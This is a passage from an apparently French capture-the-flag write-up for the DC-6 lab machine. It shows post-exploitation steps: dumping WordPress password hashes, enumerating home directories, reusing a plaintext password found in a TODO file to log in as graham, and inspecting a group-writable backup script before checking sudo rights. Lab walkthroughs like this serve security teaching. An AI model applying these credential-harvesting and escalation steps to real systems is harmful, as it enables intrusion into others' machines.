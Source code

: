 
Et de fouiller dans la table des utilisateurs :

```sql
MariaDB [wordpressdb]> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BDhiv9Y.kOYzAN8XmDbzG00hpbb2LA1 |
| graham     | $P$B/mSJ8xC4iPJAbCzbRXKilHMbSoFE41 |
| mark       | $P$BdDI8ehZKO5B/cJS8H0j1hU1J9t810/ |
| sarah      | $P$BEDLXtO6PUnSiB6lVaYkqUIMO/qx.3/ |
| jens       | $P$B//75HFVPBwqsUTvkBcHA8i4DUJ7Ru0 |
+------------+------------------------------------+
5 rows in set (0.00 sec)
```

Aucun des hashes ne s'avère utile. Voyons les fichiers des utilisateurs :

```console
www-data@dc-6:/home$ find . -type f -ls 2> /dev/null 
   156190      4 -rw-r--r--   1 jens     jens          675 Apr 24  2019 ./jens/.profile
   156364      4 -rw-------   1 jens     jens            5 Apr 26  2019 ./jens/.bash_history
   156806      4 -rwxrwxr-x   1 jens     devs           50 Apr 26  2019 ./jens/backups.sh
   156196      4 -rw-r--r--   1 jens     jens          220 Apr 24  2019 ./jens/.bash_logout
   156199      4 -rw-r--r--   1 jens     jens         3526 Apr 24  2019 ./jens/.bashrc
   153306      4 -rw-r--r--   1 mark     mark          675 Apr 24  2019 ./mark/.profile
   156200      4 -rw-------   1 mark     mark            5 Apr 26  2019 ./mark/.bash_history
   156188      4 -rw-r--r--   1 mark     mark          220 Apr 24  2019 ./mark/.bash_logout
   156191      4 -rw-r--r--   1 mark     mark         3526 Apr 24  2019 ./mark/.bashrc
   156363      4 -rw-r--r--   1 mark     mark          241 Apr 26  2019 ./mark/stuff/things-to-do.txt
   153032      4 -rw-r--r--   1 sarah    sarah         675 Apr 24  2019 ./sarah/.profile
   156192      4 -rw-r--r--   1 sarah    sarah         220 Apr 24  2019 ./sarah/.bash_logout
   156195      4 -rw-r--r--   1 sarah    sarah        3526 Apr 24  2019 ./sarah/.bashrc
   153036      4 -rw-r--r--   1 graham   graham        675 Apr 24  2019 ./graham/.profile
   156194      4 -rw-------   1 graham   graham          5 Apr 26  2019 ./graham/.bash_history
   156186      4 -rw-r--r--   1 graham   graham        220 Apr 24  2019 ./graham/.bash_logout
   156187      4 -rw-r--r--   1 graham   graham       3526 Apr 24  2019 ./graham/.bashrc
```

La TODO list est intéressante :

> Things to do:
>
> - Restore full functionality for the hyperdrive (need to speak to Jens)
> - Buy present for Sarah's farewell party
> - Add new user: graham - GSo7isUM1D4 - done
> - Apply for the OSCP course
> - Buy new laptop for Sarah's replacement
 
Le mot de passe permet de se connecter en tant que `Graham` qui est membre du groupe `devs`.

```console
graham@dc-6:/home/jens$ ls -al
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
graham@dc-6:/home/jens$ cat backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:/home/jens$ sudo -l
Matching Defaults entries for graham on dc-6:
```